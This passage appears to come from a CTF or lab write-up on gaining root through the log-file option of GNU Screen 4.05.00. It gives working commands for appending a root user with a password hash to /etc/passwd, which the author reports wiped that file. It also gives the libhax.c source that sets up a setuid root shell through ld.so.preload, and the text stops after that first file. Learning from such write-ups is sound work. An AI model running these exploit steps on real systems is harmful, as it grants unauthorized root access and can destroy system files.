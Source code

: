 ```sh
LFILE=file_to_write
screen -L $LFILE echo DATA
```

Checking our version:

```sh
$ screen --version
Screen version 4.05.00 (GNU) 10-Dec-16
```

It's a match! This should let us add a root user to the machine!

Looking at other POCs on exploit-db ([here](https://www.exploit-db.com/exploits/41152) and [here](https://www.exploit-db.com/exploits/41154)), they also add flags `-D -m` to the screen command, so I'll do that, too.

Testing the exploit:

```sh
cd /tmp
screen -D -m -L derp echo fail
cat derp
# fail
```

That seems to work. Now trying to overwrite `/etc/passwd`:

```sh
cp /etc/passwd /tmp/passwd.pwn
echo 'derp:$5$derp$uEWQFRg/9idrisiL6SgLNfSAv3.UNCc7eHUv.L1Wlo.:0:0:root:/root:/bin/bash' >> /tmp/passwd.pwn
screen -D -m -L /etc/passwd cat /tmp/passwd.pwn
# getpwuid() can't identify your account!
```

Huh? Uh-oh, it looks like I deleted `/etc/passwd`:

```sh
$ ls -l passwd
-rw-r--r-- 1 0 root 0 Jan  8 03:34 passwd
```

Ok, gotta reset the box. Next time, follow along with the exploit-db POCs, which use `ld.so.preload`.

First make 3 files on the attack box:

#### libhax.c:

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
